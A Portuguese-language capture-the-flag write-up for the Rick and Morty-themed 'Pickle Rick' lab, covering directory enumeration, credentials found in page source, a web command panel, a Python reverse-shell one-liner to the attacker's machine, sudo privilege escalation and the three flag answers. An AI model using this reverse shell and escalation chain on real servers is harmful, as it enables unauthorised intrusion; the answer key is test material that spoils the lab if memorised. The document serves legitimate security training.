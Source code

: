 # **_Easy - Pickle Rick CTF_**
![](Rick_and_Morty_CTF.jpg)
_This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle._

## _**Enumeração**_
Primeiro, vamos começar abrindo o _web server_ com o IP fornecido  
E logo em seguida, vamos inspecionar o código da página  
Logo de cara encontramos uma pista
_Note to self, remember username!_ <mark>Username: R1ckRul3s</mark>

> ``` bash
> gobuster dir --url [ip_address] -w ../seclists/Disocvery/Web-Content/common.txt
> ```

Temos algumas informações interessantes descobertas após esse scan
* **/.htpasswd (cod.403)**
* **/.htaccess (cod.403)**
* **/.hta (cod.403)**
* **/access (cod.301)**
* **/index.html (cod.200)**
* **/robots.txt (cod.200)**
* **/server-status (cod.403)**

Podemos excluir a procura em alguns destes diretórios, aqueles que tem retorno de código 403  
Vamos investigar <mark>/assets</mark>  

![](assets.jpg)  
Suspeita-se de que algo possa estar obfuscado em algum destes arquivos  
Vamos continuar  

Investigando <mark>/robots.txt</mark>  
Temos apenas uma simples palavra, talvez uma senha: <mark>Wubbalubbadubdub</mark>

Não conhecemos nenhuma página de login, porém, podemos tentar descobrir alguma com (novamente) Gobuster
> ``` bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/Logins.fuzz.txt
> ```

Temos como resultado o seguinte:
* **/login.php (cod.200)**
* **/?page=admin.auth.inc (cod.200)**
* **/?page=auth.inc (cod.200)**
* **/?page=auth.inc.php (cod.200)**

Vamos investigar <mark>/login.php</mark>  
![](login.php.jpg)

Usando:
* **user:** <mark>R1ckRul3s</mark>
* **password:** <mark>ubbalubbadubdub</mark>

E temos login  
Logo de cara, nos deparamos com um painel que aceita comandos   
![](command_pannel.jpg)

Vamos tentar o comando ```ls```
* **Sup3rS3cretPickl3Ingred.txt**
* **clue.txt**
* **denied.php**
* **portal.php**
* **robots.txt**

Me parece que algum dos ingredientes está no arquivo <mark>Sup3rS3cretPickl3Ingred.txt</mark>  
Vamos puxar com o comando ```cat```  
Bloqueado!    

Vamos tentar com o comando ```sort```  
Temos retorno do que parece ser um ingrediente e também uma flag!  

> _**What is the first ingredient that Rick needs?**_ <mark>_mr. meeseek hair_</mark>  

Vamos continuar nossa investigação em <mark>/portal.php</mark>  
Verificando o código da página, encontramos como comentário uma string
> Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==

Essa string parece ser <mark>base64</mark>  
Vamos decodificar com o comando ``` echo ```  
> ```bash 
> echo 'Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==' | base64 -d
> ```

Ainda nada  
Vamos tentar mais algumas vezes  
> ```bash
> echo 'Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==' | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
> ```

Resultado: <mark>rabbit hole</mark>  
Parece que não nos levou a nada  

Por termos disponível um painel que aceita linha de comando, vamos tentar obter uma _shell_  
Ao tentarmos o comando ``` netcat ``` vemos que ele foi desabilitado  

Outra possibilidade é tentar executar algum comando (ex: python) para obtermos um _reverse shell_  
Executando ``` python3"('hello')" ```, temos retorno! Logo, comandos python são executados  
Vamos tentar o seguinte  
Em nossa máquina Kali:
> ``` bash
> nc -lnvp [port]
> ```  
Na página de comandos:
> ``` bash
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[vpn_ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```

<mark>Obtemos um shell reverso!</mark>
![](shell.jpg)

Dentro da shell, queremos obter acesso _**root**_  
Para isso, podemos fazer o seguinte:
O comando ``` sudo -l ``` é usado em sistemas Linux e Unix para listas os **_comandos que o usuário atual tem permissão para executar com privilégios de superusuário através de ``` sudo ```_**  
Esse comando é uma maneira útil de verificar quais comandos podem ser executados como ``` sudo ``` sem precisar de senha ou permissões limitadas  
![](priv_esc.jpg)  

Podemos obter acesso _root_ com o seguinte comando
> ``` bash
> sudo bash
> ```

Após obter acesso root, navegamos para o seu diretório ~  
Dando um ```ls```, encontra-se o terceiro ingrediente dentro de um arquivo _.txt_

> _**What is the last and final ingredient?**_ <mark>fleeb juice</mark>

Procurando em outros diretórios, como /home, encontramos o diretório rick  
Dentro, um arquivo, _second ingredient_  
Basta um ```cat *``` para descobrir  
> _**What is the second ingredient in Rick’s potion?**_ <mark>1 jerry tear</mark>












